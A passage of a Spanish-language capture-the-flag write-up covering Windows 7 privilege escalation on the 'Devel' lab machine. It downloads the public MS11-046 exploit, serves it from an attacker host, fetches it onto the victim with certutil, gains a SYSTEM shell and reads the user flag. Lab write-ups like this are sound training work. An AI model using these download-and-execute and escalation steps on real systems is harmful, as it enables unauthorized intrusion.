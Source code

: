 <p style="text-align: center;">
<img src="/assets/images/devel/08-page6.png">  
</p>

## ESCALADA DE PRIVILEGIOS

Realizamos como primer paso una enumeración basica, por medio del comando `systeminfo`, obteniendo información interesante en cuanto a la versión del sistema operativo actual.

```bash
systeminfo
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
```

Luego de un poco de investigación de la versión de Windows `6.1.7600`, encontramos que es vulnerable al script [MS11-046.exe](https://github.com/abatchy17/WindowsExploits/raw/master/MS11-046/MS11-046.exe) del github de [abatchy17](https://github.com/abatchy17), por ende, procedemos a descargar este recurso.

```bash
wget https://github.com/abatchy17/WindowsExploits/raw/master/MS11-046/MS11-046.exe
```

Al obtener el exploit, activamos un servidor `http` con `python` por el puerto `80`.

```bash
sudo python3 -m http.server 80
```

En la máquina víctima realizamos la descarga desde la carpeta `C:\Windows\Temp` del exploit por medio de la utilidad `certutil.exe`.

```bash
cd C:\Windows\Temp
certutil.exe -f -urlcache -split http://10.10.14.15/MS11-046.exe
MS11-046.exe
whoami
nt authority\system
```

¡Listo! Logramos una shell con un usuario administrador.

## FLAGS

Lo único que nos queda es leer las banderas de user y root. Pueden ver la flag con `type`, pero para hacerlo más retador solo dejaré los primeros 10 caracteres de la flag. 

```bash
cd C:\
dir /b/s user.txt
C:\Users\babis\Desktop\user.txt
set /P user=<"C:\Users\babis\Desktop\user.txt"
echo.%user:~0,10%
455111f4a9
```
